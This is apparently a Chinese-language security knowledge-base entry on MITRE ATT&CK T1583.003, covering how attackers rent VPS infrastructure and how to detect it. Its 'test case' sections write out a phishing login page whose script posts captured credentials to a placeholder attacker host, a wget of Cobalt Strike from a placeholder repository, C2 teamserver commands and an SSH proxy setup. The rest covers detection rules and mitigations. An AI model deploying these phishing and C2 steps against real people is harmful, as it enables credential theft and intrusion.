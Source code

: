 # T1583-003-获取基础设施-虚拟专用服务器

## 描述
攻击者在入侵目标组织之前，可能租用虚拟专用服务器（VPS）以支持目标定位和攻击执行。VPS是一种通过虚拟化技术（如容器或虚拟机）将物理服务器分割为多个独立虚拟服务器的服务，每个VPS拥有独立的公网IP、操作系统、磁盘空间、内存和CPU资源。攻击者利用VPS可以快速设置、修改或销毁基础设施，增加追踪难度，并借助云服务提供商的高声誉掩盖恶意活动。

攻击者可能通过以下方式利用VPS：
- **命令与控制（C2）**：使用VPS作为C2服务器，通过HTTP、DNS或其他协议与受感染主机通信。
- **钓鱼和恶意内容托管**：在VPS上部署钓鱼网站或恶意文件分发点。
- **代理和中继**：将VPS用作代理服务器，隐藏攻击者的真实IP。
- **匿名性增强**：选择以最低注册信息要求提供VPS的供应商，降低被追踪的风险。

VPS的灵活性和云服务的高可用性使其成为攻击者的理想选择，尤其是在需要快速部署或销毁基础设施的场景中。

## 测试案例
以下是模拟攻击者获取和使用VPS的常见方法和案例：
- **VPS租用**：
  - 通过云服务提供商（如AWS EC2、阿里云ECS、DigitalOcean、Vultr、Linode）租用VPS。
  - 选择支持匿名注册或加密货币支付的供应商（如NJalla、Hostinger）以隐藏身份。
- **VPS用途**：
  - **C2服务器**：在VPS上部署Cobalt Strike或Metasploit，配置HTTP/HTTPS C2通道。
    ```bash
    # 在VPS上启动Cobalt Strike
    ./teamserver <VPS_IP> <password>
    ```
  - **钓鱼网站**：在VPS上部署伪装的登录页面，诱导用户输入凭据。
    ```html
    <!-- 伪装登录页面 -->
    <html>
    <head><title>TargetCorp Login</title></head>
    <body>
        <form id="login-form">
            <input type="text" id="username" placeholder="Username">
            <input type="password" id="password" placeholder="Password">
            <input type="submit" value="Login">
        </form>
        <script>
            document.getElementById('login-form').addEventListener('submit', function(e) {
                e.preventDefault();
                var data = {
                    username: document.getElementById('username').value,
                    password: document.getElementById('password').value
                };
                fetch('http://<VPS_IP>/collect', {
                    method: 'POST',
                    body: JSON.stringify(data)
                });
            });
        </script>
    </body>
    </html>
    ```
  - **代理中继**：配置VPS为SOCKS5代理，隐藏攻击者流量。
    ```bash
    # 在VPS上配置SOCKS5代理
    ssh -D 1080 -f -N user@<VPS_IP>
    ```
- **案例场景**：
  - 攻击者租用DigitalOcean VPS，部署Cobalt Strike C2服务器，通过HTTPS通信控制受感染主机。
  - 在Vultr VPS上搭建钓鱼网站，伪装成目标组织的内部门户，窃取员工凭据。
  - 参考案例：攻击者利用VPS托管恶意软件分发点，结合钓鱼邮件传播。

## 检测日志
VPS相关活动多发生在目标组织监测范围之外，难以直接监测。以下是可能的日志来源：
- **网络流量日志**：
  - 检测与已知VPS提供商IP范围的异常通信，如AWS、DigitalOcean的IP段。
- **DNS日志**：
  - 记录解析到VPS IP的异常域名查询，可能与C2或钓鱼相关。
- **邮件服务器日志**：
  - 监控钓鱼邮件，可能包含指向VPS托管的恶意链接。
- **防火墙/IDS日志**：
  - 检测与VPS IP的异常HTTP/HTTPS流量或C2模式。
- **Web服务器日志**：
  - 记录访问VPS托管钓鱼网站的HTTP请求。

## 测试复现
以下是模拟攻击者获取VPS的步骤：
1. **环境准备**：
   - 租用VPS（如DigitalOcean、阿里云ECS），配置公网IP和操作系统（如Ubuntu）。
   - 注册域名并指向VPS IP。
2. **VPS配置**：
   - 部署C2服务器：
     ```bash
     # 安装Cobalt Strike
     wget https://<attacker_repo>/cobaltstrike.jar
     java -jar cobaltstrike.jar
     # 配置HTTPS Beacon
     ./teamserver <VPS_IP> <password> /path/to/profile
     ```
   - 部署钓鱼网站：
     ```bash
     # 安装Nginx
     sudo apt install nginx
     # 将钓鱼页面部署到Nginx
     cp phishing.html /var/www/html/index.html
     sudo systemctl start nginx
     ```
   - 配置SOCKS5代理：
     ```bash
     ssh -D 1080 -f -N user@<VPS_IP>
     ```
3. **测试执行**：
   - 发送钓鱼邮件，诱导目标访问VPS上的伪装页面。
   - 使用C2客户端连接VPS，模拟命令与控制。
4. **结果分析**：
   - 验证C2通道或钓鱼页面是否正常运行。
5. **日志收集**：
   - 收集DNS、网络流量和Web服务器日志，分析VPS相关活动痕迹。

## 测试留痕
VPS相关活动可能留下以下痕迹：
- **DNS查询**：解析到VPS提供商IP的异常域名。
- **网络流量**：与VPS IP的异常HTTP/HTTPS流量或C2通信模式。
- **防火墙/IDS告警**：触发C2或钓鱼相关的检测规则。
- **邮件服务器日志**：钓鱼邮件中包含VPS托管的链接。
- **Web服务器日志**：访问VPS钓鱼页面的HTTP请求。

## 检测规则/思路
由于VPS活动多发生在目标组织视野之外，检测需结合多种手段：
- **网络流量监控**：
  - 检测与已知VPS提供商IP范围的异常通信。
  - 示例Snort规则：
    ```snort
    alert tcp $HOME_NET any -> $EXTERNAL_NET $HTTP_PORTS (msg:"Suspicious VPS Traffic"; content:"digitalocean.com"; sid:1000001;)
    ```
  - 使用NetFlow或Zeek分析与VPS的长期连接或异常流量模式。
- **DNS监控**：
  - 检测解析到VPS IP的异常域名，重点关注新注册或可疑域名。
  - 示例DNS防火墙规则：
    ```plaintext
    Rule: Detect Suspicious VPS Domains
    Condition: DNS query resolves to <AWS_IP_RANGE> OR <DigitalOcean_IP_RANGE>
    Action: Alert
    ```
- **邮件监控**：
  - 使用DLP工具检测钓鱼邮件，检查包含VPS IP或域名的链接。
  - 示例DLP规则：
    ```plaintext
    Rule: Detect Phishing Links to VPS
    Condition: Email contains "http" AND "<VPS_IP>"
    Action: Alert
    ```
- **威胁情报整合**：
  - 结合威胁情报平台（如微步在线、奇安信），识别已知的恶意VPS IP或C2域名。
  - 监控WHOIS数据库，检测与VPS相关的域名注册。
- **日志关联**：
  - 使用SIEM（如Splunk、ELK）关联DNS、网络和邮件日志，检测VPS相关C2或钓鱼活动。

## 建议
- **减少暴露面**：
  - 限制员工访问未知或可疑的VPS托管网站。
  - 使用URL过滤器拦截已知VPS提供商的恶意IP或域名。
- **安全加固**：
  - 配置防火墙限制与未知VPS IP的通信。
  - 实施MFA保护与员工相关的账户，防止凭据被VPS钓鱼网站窃取。
  - 使用WAF保护合法网站，拦截异常流量。
- **主动监控与响应**：
  - 使用Shodan或Censys监控VPS IP的暴露服务，识别潜在恶意活动。
  - 部署SIEM工具，分析与VPS相关的异常流量模式。
  - 使用威胁狩猎（Threat Hunting）技术，主动搜索可能的VPS滥用行为。
- **后续阶段检测**：
  - 重点监控攻击者生命周期的后续阶段（如命令与控制T1102、钓鱼T1566），通过异常流量或C2行为间接发现VPS活动。

## 参考资料
- MITRE ATT&CK: T1583-003  
  <https://attack.mitre.org/techniques/T1583/003/>
- 全流程信息收集方法总结  
  <https://www.freebuf.com/articles/database/195169.html>